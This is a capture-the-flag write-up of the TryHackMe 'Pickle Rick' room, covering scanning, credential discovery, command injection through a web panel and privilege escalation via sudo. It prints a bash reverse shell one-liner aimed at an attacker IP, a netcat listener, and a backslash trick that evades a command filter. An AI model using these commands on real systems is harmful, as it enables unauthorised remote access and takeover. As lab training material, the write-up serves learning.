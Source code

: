 ```yaml
---
layout: post
title:  "THM - Pickle Rick Writeup"
date:   2022-09-11
author:
  - "Mario Raciti"
tags: ctf
---
```


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
<!-- readmore -->

There is only one task, indicating that we have to get three ingredients (flags). So without any further ado, let's begin our game!

> TryHackMe CTF Room: <https://tryhackme.com/room/picklerick>

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 00:01 CEST
Nmap scan report for 10.10.166.156
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1b:e2:11:5e:45:4a:75:91:cb:d5:ec:00:2a:1d:cf:65 (RSA)
|   256 1b:78:9f:27:b3:aa:16:c2:b4:c6:be:f8:d2:61:7f:ba (ECDSA)
|_  256 b4:66:1e:a1:27:d3:3c:cc:e1:38:44:f4:79:3c:9e:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Thus, we can guess that a candidate username for a login could be `R1ckRul3s`.

Now let's give a look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

Wubbalubbadubdub
```

Okay maybe `Wubbalubbadubdub` could be a password (?), that is funny though. Furthermore, by trying to discover some admin page, we can find a login page at the `/login.php`endpoint.

### Gobuster

Since we didn't find any useful information apart from the login page, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.166.156
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/01 00:13:36 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2020/10/01 00:13:49 Finished
===============================================================
```

As we can see, the tool found only one directory: `/assets`. Therefore we can investigate on that:

```
GET http://$IP/assets/

Parent Directory   -  
bootstrap.min.css 2019-02-10 16:37 119K  
bootstrap.min.js 2019-02-10 16:37 37K  
fail.gif 2019-02-10 16:37 49K  
jquery.min.js 2019-02-10 16:37 85K  
picklerick.gif 2019-02-10 16:37 222K  
portal.jpg 2019-02-10 16:37 50K  
rickandmorty.jpeg 2019-02-10 16:37 488K  
```

It seems that we found some... rubbish!

## First ingredient

Let's try the `R1ckRul3s:Wubbalubbadubdub` login combination in the portal login page found at `$IP/login.php`.

Bingo! We have access to the command panel. Thus, we can try to execute an ls command to see if there is something interesting:

```sh
$ ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

We can try to read the content of `Sup3rS3cretPickl3Ingred.txt`:

```sh
$ cat Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK
```

Damn. But we can bypass that by escaping every char with a backslash:

```sh
$ \c\a\t Sup3rS3cretPickl3Ingred.txt

***first_ingredient***
```

## Second ingredient

Let's read the content of the `clue.txt` file:

```sh
$ \c\a\t clue.txt

Look around the file system for the other ingredient.
```

Since we can perform command injections, we can try to get a reverse shell. Firstly, we can run netcat and make it listen on port 4444, then we can simply execute the following in the command panel webpage:

```sh
bash -c "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

And voilà! We got a reverse shell:

```sh
$ nc -lvnp 4444

Connection from 10.10.166.156:56724
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-166-156:/var/www/html$ 
```

Now we can go in the home directory and find the second ingredient in Rick's home:

```sh
www-data@ip-10-10-166-156:/var/www/html$ cd ../../home
cd ../../home
bash: cd: ../../home: No such file or directory
www-data@ip-10-10-166-156:/var/www/html$ cd ../../../home
cd ../../../home
www-data@ip-10-10-166-156:/home$ ls
ls
rick
ubuntu
www-data@ip-10-10-166-156:/home$ cd rick
cd rick
www-data@ip-10-10-166-156:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-166-156:/home/rick$ cat *
cat *
***second_ingredient***
```

## Third ingredient

In order to get the latest ingredient we have to elevate our privileges. Let's check out a `sudo -l` for our current user, `www-data`:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-166-156.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-166-156.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, easy peasy! It seems that the user `www-data` is allowed to perform all commands as root. We can finally get the third ingredient:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo su
sudo su
/bin/bash -i
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-166-156:/var/www/html# cd 
cd
root@ip-10-10-166-156:~# ls 
ls 
3rd.txt
snap
root@ip-10-10-166-156:~# cat 3rd.txt
cat 3rd.txt
***third_ingredient***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/Pickle-Rick>.
